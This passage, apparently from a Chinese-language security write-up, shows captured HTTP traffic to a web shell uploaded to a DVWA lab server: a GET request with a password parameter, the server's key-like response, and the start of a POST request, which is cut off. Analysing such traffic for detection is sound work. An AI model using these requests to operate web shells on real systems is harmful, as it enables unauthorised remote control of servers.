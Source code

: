 **GET请求包**a

```pacp
GET /DVWA/hackable/uploads/shell.php?pass=673 HTTP/1.1

Content-type: application/x-www-form-urlencoded

User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1; WOW64; Trident/4.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; InfoPath.3)

Host: 192.168.66.136

Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2

Connection: keep-alive

**GET请求返回包**a

HTTP/1.1 200 OK

Date: Mon, 19 Aug 2019 09:34:36 GMT

Server: Apache/2.4.23 (Win32) OpenSSL/1.0.2j PHP/5.4.45

X-Powered-By: PHP/5.4.45

Set-Cookie: PHPSESSID=m0agat42tmo0i4srnda5ssfq94; path=/

Expires: Thu, 19 Nov 1981 08:52:00 GMT

Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0

Pragma: no-cache

Content-Length: 16

Keep-Alive: timeout=5, max=100

Connection: Keep-Alive

Content-Type: text/html

03befc81cbefda94
```

POST请求包

```pcap
POST /DVWA/hackable/uploads/shell.php HTTP/1.1

Content-Type: application/x-www-form-urlencoded

Cookie: PHPSESSID=bv5lv0681hq09ggt8rfj1peio5; path=/

User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1; WOW64; Trident/4.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; InfoPath.3)

Cache-Control: no-cache

Pragma: no-cache

Host: 192.168.66.136

Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2

```